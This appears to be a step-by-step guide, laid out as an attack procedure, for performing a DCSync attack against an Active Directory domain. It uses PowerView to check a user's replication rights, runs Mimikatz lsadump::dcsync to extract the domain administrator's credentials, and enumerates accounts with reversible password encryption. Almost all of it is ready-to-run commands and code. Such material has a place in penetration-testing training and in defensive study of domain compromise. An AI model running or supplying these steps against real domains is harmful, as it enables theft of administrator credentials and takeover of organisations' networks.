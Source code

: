 ### **STEP 1. DEFINE USER' SID AND CHECK REPLICATION RIGHTS**

1.  Import the PowerView module :  
    `Import-Module PowerView`
    
2.  View the group membership of the user (e.g., user adunn):  
    `Get-DomainUser -Identity [USERNAME] | select samaccountname, objectsid, memberof, useraccountcontrol | fl`
    
3.  Define the user's SID (Security Identifier). Replace the placeholder SID with the actual SID of the user you are investigating:  
    `$sid = "S-1-5-21-1234567890-9876543210-4567891230-5678"`
    
4.  Check if the user has replication rights for the specified domain:
    

```Powershell
Get-ObjectAcl -Identity "DC=EXAMPLE,DC=LOCAL" -ResolveGUIDs |
    Where-Object { ($_.ObjectAceType -match 'Replication-Get') } |
    Where-Object { $_.SecurityIdentifier -match $sid } |
    Select-Object AceQualifier, ObjectDN, ActiveDirectoryRights, SecurityIdentifier, ObjectAceType | fl

```

### **STEP 2. PERFORMING THE DCSYNC ATTACK**

5.  Open a PowerShell session as the user with DCSync privileges:  
    `runas /netonly /user:EXAMPLE\[USERNAME] powershell`
6.  Run Mimikatz:  
    `.\mimikatz.exe`
7.  Enable debug privileges:  
    `mimikatz # privilege::debug`
8.  Execute DCSync:  
    `mimikatz # lsadump::dcsync /domain:EXAMPLE.LOCAL /user:EXAMPLE\administrator`

### **STEP 3. ADDITIONAL ENUMERATION**

9.  Check if user accounts with the reversible encryption option enabled:

```Powershell
Get-DomainUser -Identity * | 
    ? { $_.useraccountcontrol -like '*ENCRYPTED_TEXT_PWD_ALLOWED*' } | 
    select samaccountname, useraccountcontrol
```

10. Enumerate accounts with reversible encryption using Get-ADUser:  
    `Get-ADUser -Filter 'userAccountControl -band 128' -Properties userAccountControl`